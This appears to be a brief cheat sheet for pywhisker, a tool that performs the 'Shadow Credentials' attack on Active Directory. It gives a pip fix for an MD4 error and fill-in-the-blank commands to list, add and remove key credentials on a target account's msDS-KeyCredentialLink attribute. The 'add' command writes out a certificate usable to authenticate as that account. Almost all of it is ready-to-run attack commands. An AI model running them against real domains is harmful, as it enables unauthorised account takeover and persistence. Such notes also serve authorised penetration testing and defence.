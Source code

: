 ### Source
https://github.com/ShutdownRepo/pywhisker

### Troubleshooting
```
[!] unsupported hash type MD4

pip3 uninstall cryptography
pip3 install pycryptodome
pip3 install cryptography
```

### List entries of msDS-KeyCredentialLink attribute
```
python3 pywhisker.py -d "<domain>" -u "<user>" -p "<password>" --target "<targetAccount>" -td <targetDomain> --dc-ip <domainController> --action "list"
```

### Add credential to the target object and write resulting certificate to file
```
python3 pywhisker.py -d "<domain>" -u "<user>" -p "<password>" --target "<targetAccount>" --action "add" --filename <outFile>
```

### Remove key credential by a DeviceID GUID
```
python3 pywhisker.py -d "<domain>" -u "<user>" -p "<password>" --target "<targetAccount>" --action "remove" --device-id <id>
```

